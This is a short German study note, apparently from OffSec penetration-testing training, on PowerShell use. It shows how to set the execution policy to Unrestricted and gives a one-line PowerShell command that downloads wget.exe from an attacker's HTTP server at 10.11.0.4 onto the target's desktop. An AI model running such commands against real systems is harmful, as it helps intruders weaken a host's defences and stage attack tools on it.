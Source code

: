 # OffSec - Powershell und Powercat

## Execution Policy

Um #Powershell effektiv in einem #Penetrationtest verwenden zu können, muss die #Execution-Policy auf "Unrestricted" gesetzt werden.

`Set-ExecutionPolicy Unrestricted`

Mit folgendem Befehl kann überprüft werden, wie die Execution-Policy gesetzt ist:

`Get-ExecutionPolicy`

## File Transfers

Mit #Powershell können auch #FileTransfers durchgeführt werden.
Wie folgt wird ein #Download vorgenommen - Vorausetzung ist, dass auf dem Host ein HTTP-Server eröffnet wurde:

`powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"`



